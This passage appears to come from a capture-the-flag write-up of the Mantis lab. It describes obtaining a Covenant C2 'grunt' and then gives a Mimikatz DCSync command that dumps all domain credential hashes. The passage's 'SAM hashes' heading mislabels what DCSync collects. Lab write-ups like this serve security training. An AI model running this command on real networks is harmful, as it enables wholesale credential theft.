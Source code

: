 ![execute](/images/mantis/btsadmin.png)

Bingo, we got a grunt.

![grunt](/images/mantis/grunt-1.png)

### Dumping the SAM hashes with Covenant

To dump the SAM hashes we will head over to the interact tab and enter the following command

{% highlight powershell linenos %}
Mimikatz /command:"\"lsadump::dcsync /domain:htb.local /all /csv\""
{% endhighlight %}
